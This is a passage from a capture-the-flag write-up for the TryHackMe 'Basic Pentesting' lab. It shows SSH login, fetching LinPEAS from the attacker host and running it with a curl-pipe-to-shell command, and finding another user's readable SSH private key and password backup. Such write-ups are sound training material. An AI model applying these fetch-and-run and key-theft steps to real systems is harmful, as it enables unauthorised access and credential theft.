 Perfect! We now have a login for ssh to do.
`ssh jan@[webappIP]`
We enter the password we found above and get the login prompt!

##### 8. Enumerate the machine to find any vectors for privilege escalation
One of the enumeration scripts that I have liked is [PEASS](8) that color code different things so we can tell what to check out. To get LinPEAS.sh over to the webapp we use `python -m SimpleHTTPServer 5455` on our host machine with LinPEAS.sh in our current directory. With the ssh session we use `curl [vpnhostIP]/linpeas.sh | sh`

After running that we see in LinPeas.sh that we have a vulnerable path.
```
[+] Files inside others home (limit 20)
/home/kay/.profile                                                                                 
/home/kay/.viminfo
/home/kay/.bashrc
/home/kay/.bash_history
/home/kay/.lesshst
/home/kay/.ssh/authorized_keys
/home/kay/.ssh/id_rsa
/home/kay/.ssh/id_rsa.pub
/home/kay/.bash_logout
/home/kay/.sudo_as_admin_successful
/home/kay/pass.bak
```
So we see id_rsa & id_rsa.pub in kay's folder which corresponds to the other user possible. And with the pass.bak we can guess that it has kay's password in it.

##### 9. 	What is the name of the other user you found?
Checking out that directory we look at the file perms and see that we can access the ssh key!
```
jan@basic2:/home/kay$ ls -la
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
jan@basic2:/home/kay$ cd .ssh
jan@basic2:/home/kay/.ssh$ ls -la
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```


[1]: https://tryhackme.com/room/basicpentesting
[2]: https://tryhackme.com/access
[3]: https://nmap.org/
[4]: https://ippsec.rocks/#
[5]: https://github.com/OJ/gobuster
[6]: https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/Basic_Webapp/resources/webapp_80_files.png
[7]: https://github.com/danielmiessler/SecLists
[8]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[9]: https://github.com/magnumripper/JohnTheRipper
[10]: https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/Basic_Webapp/resources/webapp_ssh_kay.png